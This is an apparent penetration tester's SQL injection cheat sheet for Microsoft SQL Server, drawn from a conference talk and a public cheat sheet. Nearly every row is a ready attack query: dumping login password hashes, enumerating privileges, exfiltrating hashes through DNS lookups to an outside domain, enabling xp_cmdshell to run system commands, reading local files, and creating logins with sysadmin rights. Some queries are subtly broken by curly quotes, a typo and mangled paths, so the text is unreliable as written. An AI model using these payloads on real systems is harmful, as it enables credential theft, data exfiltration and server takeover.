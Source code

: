 # SQLi - MSSQL

## From:

- https://www.slideshare.net/SOURCEConference/everything-you-should-already-know-about-mssql-postexploitation
- http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

| Enumerate    | Command                 |
|--------------|-------------------------|
| Version|`SELECT @@version`|
|Comments|`SELECT 1 — comment`<br>`SELECT /*comment*/1`|
|Current User | `SELECT user_name();`<br>`SELECT system_user;<br>SELECT user;`<br>`SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID`|
|List Users|`SELECT name FROM master..syslogins`|
|List Password Hashes|`SELECT name, password FROM master..sysxlogins` — priv, mssql 2000;<br>`SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins` — priv, mssql 2000. Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.<br>`SELECT name, password_hash FROM master.sys.sql_logins` — priv, mssql 2005;<br>`SELECT name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins` — priv, mssql 2005|
| Password Cracker|MSSQL 2000 and 2005 Hashes are both SHA1-based.  phrasen\|drescher can crack these.|
| List Privileges| – current privs on a particular object in 2005, 2008<br>`SELECT permission_name FROM master..fn_my_permissions(null, ‘DATABASE’);` — current database<br>`SELECT permission_name FROM master..fn_my_permissions(null, ‘SERVER’);` — current server<br>`SELECT permission_name FROM master..fn_my_permissions(‘master..syslogins’, ‘OBJECT’);` –permissions on a table<br>`SELECT permission_name FROM master..fn_my_permissions(‘sa’, ‘USER’);` –permissions on a user– current privs in 2005, 2008<br>`SELECT is_srvrolemember(‘sysadmin’);`<br>`SELECT is_srvrolemember(‘dbcreator’);`<br>`ELECT is_srvrolemember(‘bulkadmin’);`<br>`SELECT is_srvrolemember(‘diskadmin’);`<br>`SELECT is_srvrolemember(‘processadmin’);`<br>`SELECT is_srvrolemember(‘serveradmin’);`<br>`SELECT is_srvrolemember(‘setupadmin’);`<br>`SELECT is_srvrolemember(‘securityadmin’);` – who has a particular priv? 2005, 2008<br>`SELECT name FROM master..syslogins WHERE denylogin = 0;`<br>`SELECT name FROM master..syslogins WHERE hasaccess = 1;`<br>`SELECT name FROM master..syslogins WHERE isntname = 0;`<br>`SELECT name FROM master..syslogins WHERE isntgroup = 0;`<br>`SELECT name FROM master..syslogins WHERE sysadmin = 1;`<br>`SELECT name FROM master..syslogins WHERE securityadmin = 1;`<br>`SELECT name FROM master..syslogins WHERE serveradmin = 1;`<br>`SELECT name FROM master..syslogins WHERE setupadmin = 1;`<br>`SELECT name FROM master..syslogins WHERE processadmin = 1;`<br>`SELECT name FROM master..syslogins WHERE diskadmin = 1;`<br>`SELECT name FROM master..syslogins WHERE dbcreator = 1;`<br>`SELECT name FROM master..syslogins WHERE bulkadmin = 1;`|
| List DBA Accounts| `SELECT is_srvrolemember(‘sysadmin’);` — is your account a sysadmin?  returns 1 for true, 0 for false, NULL for invalid role.  Also try ‘bulkadmin’, ‘systemadmin’ and other values from the documentation<br>`SELECT is_srvrolemember(‘sysadmin’, ‘sa’);` — is sa a sysadmin? return 1 for true, 0 for false, NULL for invalid role/username.<br>`SELECT name FROM master..syslogins WHERE sysadmin = ’1′` — tested on 2005 |
| Current Database| `SELECT DB_NAME()` |
| List Databases| `SELECT name FROM master..sysdatabases;`<br>`SELECT DB_NAME(N);` — for N = 0, 1, 2, …|
| List Columns | `SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘mytable’);` — for the current DB only<br>`SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’;` — list colum names and types for master..sometable | 
| List Tables | `SELECT name FROM master..sysobjects WHERE xtype = ‘U’;` — use xtype = ‘V’ for views<br>`SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’;`<br>`SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’;` — list colum names and types for master..sometable | 
| Find Tables From Column Name | – NB: This example works only for the current database.  If you wan’t to search another db, you need to specify the db name (e.g. replace sysobject with mydb..sysobjects).<br>`SELECT sysobjects.name as tablename, syscolumns.name as columnname FROM sysobjects JOIN syscolumns ON sysobjects.id = syscolumns.id WHERE sysobjects.xtype = ‘U’ AND syscolumns.name LIKE ‘%PASSWORD%’` — this lists table, column for each column containing the word ‘password’ | 
| Select Nth Row | `SELECT TOP 1 name FROM (SELECT TOP 9 name FROM master..syslogins ORDER BY name ASC) sq ORDER BY name DESC` — gets 9th row | 
| Select Nth Char | `SELECT substring(‘abcd’, 3, 1)` — returns c | 
| Bitwise AND | `SELECT 6 & 2` — returns 2<br>`SELECT 6 & 1` — returns 0 |
| ASCII Value -> Char | `SELECT char(0×41)` — returns A |
| Char -> ASCII Value | `SELECT ascii(‘A’)` – returns 65 |
| Casting | `SELECT CAST(’1′ as int);`<br>`SELECT CAST(1 as char)` |
| String Concatenation | `SELECT ‘A’ + ‘B’` – returns AB |
| If Statement | `IF (1=1) SELECT 1 ELSE SELECT 2` — returns 1 |
| Case Statement | `SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END` — returns 1 |
| Avoiding Quotes | `SELECT char(65)+char(66)` — returns AB |
| Time Delay | `WAITFOR DELAY ’0:0:5′` — pause for 5 seconds |
| Make DNS Requests | `declare @host varchar(800); select @host = name FROM master..syslogins; exec(‘master..xp_getfiledetails ”\’ + @host + ‘c$boot.ini”’);` — nonpriv, works on 2000<br>`declare @host varchar(800); select @host = name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) + ‘.2.pentestmonkey.net’ from sys.sql_logins; exec(‘xp_fileexist ”\’ + @host + ‘c$boot.ini”’);` — priv, works on 2005– NB: Concatenation is not allowed in calls to these SPs, hence why we have to use @host.  Messy but necessary.<br>– Also check out theDNS tunnel feature of sqlninja |
| Command Execution | `EXEC xp_cmdshell ‘net user’;` — privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:<br>`EXEC sp_configure ‘show advanced options’, 1;` — priv<br>`RECONFIGURE;` — priv<br>`EXEC sp_configure ‘xp_cmdshell’, 1;` — priv<br>`RECONFIGURE;` — priv |
| Local File Access | `CREATE TABLE mydata (line varchar(8000));`<br>`BULK INSERT mydata FROM ‘c:boot.ini’;`<br>`DROP TABLE mydata;` |
| Hostname, IP Address | `SELECT HOST_NAME()` |
| Create Users | `EXEC sp_addlogin ‘user’, ‘pass’;` — priv |
| Drop Users | `EXEC sp_droplogin ‘user’;` — priv | 
| Make User DBA | `EXEC master.dbo.sp_addsrvrolemember ‘user’, ‘sysadmin;` — priv |
|  Location of DB files | `EXEC sp_helpdb master;` –location of master.mdf<br>`EXEC sp_helpdb pubs;` –location of pubs.mdf |
| Default/System Databases | northwind<br>model<br>msdb<br>pubs — not on sql server 2005<br>tempdb|